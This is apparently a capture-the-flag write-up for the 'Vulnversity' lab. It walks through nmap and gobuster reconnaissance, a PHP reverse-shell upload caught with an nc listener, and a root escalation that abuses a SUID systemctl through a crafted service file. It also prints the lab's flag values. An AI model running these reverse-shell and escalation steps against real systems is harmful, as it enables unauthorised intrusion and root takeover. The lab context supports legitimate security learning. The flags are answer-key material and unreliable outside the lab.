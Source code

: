 <center> <h1>Vulneversity Write Up</h1> </center>

# Task 1 ⇒ Deploy the machine
IP: ```10.10.255.221```
# Task 2⇒ Reconnaissance
```
┌─[root@parrot]─[/home/alexdos2010m]
└──╼ #nmap -sV -sC 10.10.255.221
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 11:11 IST
Nmap scan report for 10.10.255.221
Host is up (0.53s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m04s, deviation: 2h18m34s, median: 4s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-08-14T01:41:47-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-14T05:41:48
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.79 seconds
```

Scan the box, how many ports are open? `6`

What version of the squid proxy is running on the machine?`3.5.12`

How many ports will nmap scan if the flag **-p-400** was used? `400`

Using the nmap flag **-n** what will it not resolve? `DNS`

What is the most likely operating system this machine is running? `Ubuntu`

What port is the web server running on? `3333`
# Task 3⇒ Locating directories using GoBuster!!
```
┌─[alexdos2010m@parrot]─[~]
└──╼ $gobuster dir -u http://10.10.255.221:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.255.221:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/14 11:31:08 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://10.10.255.221:3333/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.255.221:3333/css/]   
/js                   (Status: 301) [Size: 318] [--> http://10.10.255.221:3333/js/]    
/fonts                (Status: 301) [Size: 321] [--> http://10.10.255.221:3333/fonts/] 
/internal             (Status: 301) [Size: 324] [--> http://10.10.255.221:3333/internal/]
                                                                                         
===============================================================
2021/08/14 11:58:22 Finished
===============================================================
```
![[form_internal.png]]
# Task 4⇒ Compromise the webserver
![[burp_intercept.png]]
![[intruder.png]]
### Reverse PHP Shell:
![[form_internal_phtml.png]]
[reverse PHP](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```
┌─[alexdos2010m@parrot]─[~/Downloads]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.18.32] from (UNKNOWN) [10.10.255.221] 40778
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:42:38 up  2:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
```
![[task4.png]]
```
$ cd home
$ ls
bill
$ cd bill
$ ls
user.txt
```
`$ cat user.txt 
8bd7992fbe8a6ad22a63361004cfcedb`
# Task 5⇒ Privilege Escalation
```
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
$ TF=$(mktemp).service
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF> > 
$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.hNU5Ie7Gaj.service to /tmp/tmp.hNU5Ie7Gaj.service.
$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.hNU5Ie7Gaj.service to /tmp/tmp.hNU5Ie7Gaj.service.
```

`
$ cat /tmp/output
a58ff8579f0a9270368d33a9966c7fd5
`